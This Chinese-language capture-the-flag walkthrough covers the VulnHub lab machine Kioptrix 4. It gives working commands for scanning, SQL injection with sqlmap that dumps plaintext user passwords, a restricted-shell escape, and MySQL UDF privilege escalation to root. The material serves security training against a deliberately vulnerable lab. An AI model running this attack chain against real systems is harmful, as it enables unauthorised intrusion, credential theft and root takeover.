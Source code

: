 # Kioptrix4-WalkThrough

> 文章作者 [xidaner](https://github.com/xidaner) & [r0fus0d](https://github.com/No-Github)

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**

```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- SQL 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登录

输入用户名和密码登录进去

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/12.png)

---

## 登录 MYSQL

```
mysql -u root -p
```

---

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
select sys_exec('usermod -a -G admin john');
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/18.png)

在我们退出去后,尝试登录到 root

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/19.png)

`whoami` 确认获取 `root`

提权成功,感谢 Kioptrix Team 制作靶机

---

# 补充

**扫描 smb**

目标开放 139 445 这意味着可能可以枚举用户名

`nmap -sC --script smb-enum-users.nse <目标IP>`

`enum4linux <目标IP>`

这2个命令都可以

**udf 提权**

需要 udf 提权,需要检查 mysql 是否以 root 权限运行
```
ls -la /usr/lib/lib_mysqludf_sys.so
```
